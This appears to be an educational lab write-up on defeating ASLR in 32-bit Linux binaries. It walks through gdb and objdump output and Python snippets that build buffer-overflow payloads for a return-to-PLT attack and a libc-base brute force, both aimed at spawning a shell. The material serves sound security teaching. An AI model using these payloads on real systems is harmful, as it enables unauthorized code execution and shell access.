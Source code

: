 # Address Space Layout Randomization

-

## Return to PLT

### Sneak Preview

Let's first step into gdb and examine the `system@plt` function.

We found something like this at the very begining of the `system@plt` subroutine:

```bash
(gdb) x/24si 0x8048370
   0x8048370 <system@plt>:	    jmp    *0x804a014
   0x8048376 <system@plt+6>:	push   $0x10
```

It jumps to 0x804a014, let's see what's going on there:

```bash
(gdb) x/24si 0x804a014
   0x804a014 <system@got.plt>:	    jbe    0x8049f99
   0x804a016 <system@got.plt+2>:	add    $0x8,%al
```

It seems they are doing `system` address resolution.

### Logistics

Let's dissemble the binary!

```bash
vagrant@localhost:~/buffer_overruns/aslr$ objdump -M intel -D victim_r2p | grep 'system\|exit'
08048370 <system@plt>:
08048390 <exit@plt>:
 80484c8:	e8 a3 fe ff ff       	call   8048370 <system@plt>
 80484d4:	e8 b7 fe ff ff       	call   8048390 <exit@plt>
```

Next we would need the address of '/bin/sh' string in the binary:

```bash
vagrant@localhost:~/buffer_overruns/aslr$ hexdump -C -s 0x0 victim_r2p | grep '/bin/'
000005d0  2f 62 69 6e 2f 73 68 00  25 73 0a 00 01 1b 03 3b  |/bin/sh.%s.....;|
```

We know its offset is 0x000005d0. Sweet. We also know that as a default rule used by gnu linker, the text segment's base address is usually 0x400000 for 64 bit executables and 0x08048000 for 32 bit executables.

Thus we have the address for '/bin/sh': 0x08048000 + 0x000005d0 = 0x80485d0

We now have:

|Instruction/Value|Address|
|---|---|
|system@plt|0x8048370|
|exit@plt|0x8048390|
|"/bin/sh"|0x80485d0|

### Construct Payload

For this task, let's use a Python script to make our life easier!

```python

a_size = 36
system = 0x8048370
exit = 0x8048390
binsh = 0x80485d0
pointer_fmt = '<I'  # unsigned int (4 bytes)

buf = 'A' * a_size
buf += pack(pointer_fmt, system)
buf += pack(pointer_fmt, exit)
buf += pack(pointer_fmt, binsh)
```

Let's call it!

## Brute Force

### Find my argument

Since this time "/bin/sh" is no longer provided in the text, we could not use it for our malicious purpose :(

But wait! Someone was kind enough to put a `fflush` function there. "fflu......sh!"

That reminded me that in order to bring up a shell, we don't necessarily have to call `system("/bin/sh");`. `system("sh");` will do just as nice.

Let's find the address of "sh"!

```bash
vagrant@localhost:~/buffer_overruns/aslr$ hexdump -C -s 0x0 victim_bf | grep sh
00000260  5f 75 73 65 64 00 66 66  6c 75 73 68 00 73 74 72  |_used.fflush.str|
00001560  73 61 76 65 5f 65 6e 64  00 73 68 6f 72 74 20 69  |save_end.short i|
00001680  6b 65 72 00 5f 73 68 6f  72 74 62 75 66 00 5f 49  |ker._shortbuf._I|
000016b0  74 72 00 73 68 6f 72 74  20 75 6e 73 69 67 6e 65  |tr.short unsigne|
000017b0  00 2e 73 74 72 74 61 62  00 2e 73 68 73 74 72 74  |..strtab..shstrt|
000017f0  2e 68 61 73 68 00 2e 64  79 6e 73 79 6d 00 2e 64  |.hash..dynsym..d|
00002490  49 42 43 5f 32 2e 30 00  66 66 6c 75 73 68 40 40  |IBC_2.0.fflush@@|
```

We could extract the first ocurance where there's a tailing null -- 0x00000260 + 10 = 0x0000026a is the offset of "sh".

Now adding this to the text base address, we get:
0x0000026a + 0x08048000 = 0x0804826a

Note that this address won't change as the text segment does not move.

(Side note, there are other ways to obtain address of "sh" or even "/bin/sh". Try searching in GDB)

### Other logistics

Using pattern offset search, we found that the rubbish data we need is 32 bytes.

By running ldd a few times, we realized that the base address of libc.so has such a pattern `0xb75??000`.

```bash
agrant@localhost:~/buffer_overruns/aslr$ ldd ./victim_bf | grep libc.so
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75c4000)
vagrant@localhost:~/buffer_overruns/aslr$ ldd ./victim_bf | grep libc.so
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb752b000)
vagrant@localhost:~/buffer_overruns/aslr$ ldd ./victim_bf | grep libc.so
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75b4000)
vagrant@localhost:~/buffer_overruns/aslr$ ldd ./victim_bf | grep libc.so
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb758f000)
vagrant@localhost:~/buffer_overruns/aslr$ ldd ./victim_bf | grep libc.so
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75df000)
vagrant@localhost:~/buffer_overruns/aslr$ ldd ./victim_bf | grep libc.so
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7566000)
vagrant@localhost:~/buffer_overruns/aslr$ ldd ./victim_bf | grep libc.so
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb758c000)
vagrant@localhost:~/buffer_overruns/aslr$ ldd ./victim_bf | grep libc.so
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7526000)
```

Thus in total we need to brute force two base 16 digits, namely 2 ^ 8 times.

Now let's find out the offset of `system` and `exit` symbols in the libc file:

```bash
vagrant@localhost:~/buffer_overruns/aslr$ nm -D /lib/i386-linux-gnu/libc.so.6 | grep '\<system\>'
00040310 W system
vagrant@localhost:~/buffer_overruns/aslr$ nm -D /lib/i386-linux-gnu/libc.so.6 | grep '\<exit\>'
00033260 T exit
```

Let's summarise!

|symbol|offset/address/count|
|---|---|
|system|0x00040310 (offset)|
|exit|0x00033260 (offset)|
|libc.so|0xb75??000 (base address)|
|"sh"|0x0804826a (abs address)|
|"A"s|32|

We will have our payload executor in a python script!

```python
mid = 0x8a000
libc_base = 0xb7500000
exit_offset = 0x00033260
system_offset = 0x00040310
sh_addr = 0x0804826a
a_size = 32
pointer_fmt = '<I'

buf = "A" * a_size
buf += pack(pointer_fmt, libc_base + mid + system_offset)
buf += pack(pointer_fmt, libc_base + mid + exit_offset)
buf += pack(pointer_fmt, sh_addr)
```